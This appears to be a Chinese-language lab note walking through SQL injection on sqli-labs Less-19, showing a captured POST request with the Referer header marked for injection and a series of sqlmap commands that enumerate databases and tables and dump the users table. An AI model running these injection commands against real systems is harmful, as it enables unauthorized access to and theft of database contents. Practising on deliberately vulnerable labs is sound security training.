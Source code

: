 ##### -r

burpsuite抓包保存 less-19

![image-20240807150908918](../../../../repo/assets/19.SQL注入/image-20240807150908918.png)

`Referer`后添加`*`标记

```bash
POST /Less-19/ HTTP/1.1
Host: 192.168.70.14:8088
Content-Length: 38
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://192.168.70.14:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.14:8088/Less-19/*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: xp=MTcyMjU4MTk1NnxEWDhFQVFMX2dBQUJFQUVRQUFBcF80QUFBUVp6ZEhKcGJtY01Dd0FKVTJGbVpVVnVkSEo1Qm5OMGNtbHVad3dJQUFZell6Tm1aVGM9fPMcNECUoQNlFjbgBfP0lmLnN-MAnqp1V_86YwwuNSpq
Connection: close

uname=admin&passwd=admin&submit=Submit
```

![image-20240807151100866](../../../../repo/assets/19.SQL注入/image-20240807151100866.png)

```
sqlmap -r /root/tools/sqlmap/19.txt --batch --purge --technique E --level 4 -p Referer --dbs
```

![image-20240807151508475](../../../../repo/assets/19.SQL注入/image-20240807151508475.png)

```
sqlmap -r /root/tools/sqlmap/19.txt --batch --purge --technique E --level 4 -p Referer -D security --tables
```

![image-20240807151543291](../../../../repo/assets/19.SQL注入/image-20240807151543291.png)

```
sqlmap -r /root/tools/sqlmap/19.txt --batch --purge --technique E --level 4 -p Referer -D security -T users --column 
```

![image-20240807151621346](../../../../repo/assets/19.SQL注入/image-20240807151621346.png)

```
 sqlmap -r /root/tools/sqlmap/19.txt --batch --purge --technique E --level 4 -p Referer -D security -T users --dump
```
